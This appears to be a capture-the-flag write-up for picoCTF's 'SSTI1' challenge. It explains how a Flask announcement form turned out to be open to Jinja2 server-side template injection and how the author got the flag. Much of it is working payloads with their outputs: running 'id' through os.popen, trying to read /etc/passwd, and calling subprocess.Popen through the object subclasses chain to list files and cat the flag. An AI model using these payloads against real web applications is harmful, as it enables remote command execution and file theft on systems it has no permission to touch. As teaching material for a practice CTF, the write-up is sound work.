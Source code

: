 <h1> SSTI1 </h1>

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and a completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja2 because "The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)

<h2> The exploit </h2>
Now that we know it is Jinja2, We can follow along with https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to learn about specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

This exploit relies on the fact the formatted strings can allow for the interpretation and execution of code on the server. This is possible when developers leave user-definable strings in their template files which are unsantized and without guardrails. 

See below a snippet of the code, taken after completing this challenge.

<details> 
<summary> Explanation of exploit </summary>
  
![image](https://github.com/user-attachments/assets/f293ce71-b9b9-4af9-aa7d-83f120bc171e)

The line... `return render_template_string(f"""
    <!doctype html>
    <h1 style="font-size:100px;" align="center">
        {request.form.get("content", "")}
    </h1>
""")`

...Is vulnerable since the {request.form.get("content", "")} is unsantized and anything sent to it will can be evaluated on the server.

</details>

<h2> Experimentation </h2>

Sending: __`{{global_name.__class__.__mro__}}`__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: __`{{global_name.__class__.__base__}}`__

- Returns: <class 'object'>

Sending: __`{{g.__class__.__mro__}}`__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: __`{{g.__class__.mro()}}`__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __`{{g['__class__']['mro']()}}`__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: `__{{g['__class__']['__mro__']}}`__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: __`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`__

- Returns: uid=0(root) gid=0(root) groups=0(root) 

From the __developing an exploit__ section in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: __`{{get_flashed_messages}}`__

- Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: __`{{get_flashed_messages.__class__}}`__

- Returns: <class 'function'>

Sending: __`{{get_flashed_messages.__class__.__mro__}}`__
- Returns: (<class 'function'>, <class 'object'>)

Sending: __`{{get_flashed_messages.__class__.__mro__[1]}}`__
- Returns: <class 'object'>

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}`__

- Returns: All the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it as plaintext... see:
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: __`{{g}}`__

- Returns: `<flask.g of 'app'>`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}`__

- Returns: `<class 'mappingproxy'>`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}`__

- Returns: `/etc/passwd`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}`__

- Returns: __Internal server error__

<h2> Applying this to the our target </h2>
After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: __`{{app.__class__}}`__

- Returns: `<class 'jinja2.runtime.Undefined'>`

Sending: __`{{app.__class__.__mro__}}`__

- Returns: `(<class 'jinja2.runtime.Undefined'>, <class 'object'>)`

When sending: __`{{app.__class__.__mro__[1].__subclasses__()}}`__, I received all the subclasses again. However, this time I put it into my IDE and replaced all commas with newlines to better visualise it.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

After querying ChatGPT on where I should begin my investigations regarding vulnerable subclasses, I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
- `{{app.__class__.__mro__[1].__subclasses__()[356]}}`

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen through: __`{{app.__class__.__mro__[1].__subclasses__()[356]}}`__

For example, if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: `{{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}`

Returns:

<details>
<summary> ls output </summary>
total 12

drwxr-xr-x 1 root root    25 Apr 13 03:37 .

drwxr-xr-x 1 root root    23 Apr 13 03:37 ..

drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__

-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py

-rw-r--r-- 1 root root    58 Mar  6 19:43 flag

-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt
</details>

Hooray! Success

It seems like we found the flag file. However, out of curiosity lets check out what the requirements.txt file is first.

<details>
<summary> requirements.txt output </summary>
ÿþblinker==1.8.2

click==8.1.7

colorama==0.4.6

Flask==3.0.3

itsdangerous==2.2.0

Jinja2==3.1.4

MarkupSafe==2.1.5

Werkzeug==3.0.3
</details>

Seems like just details for the application to run, maybe a docker thing?



<h3>Win</h3>
Lastly, lets using the linux read file command cat to open the flag file:


Sending: __`{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}`__

- Returns __`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}`__

---------------------------------------------------------------------------------------------------------------------

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


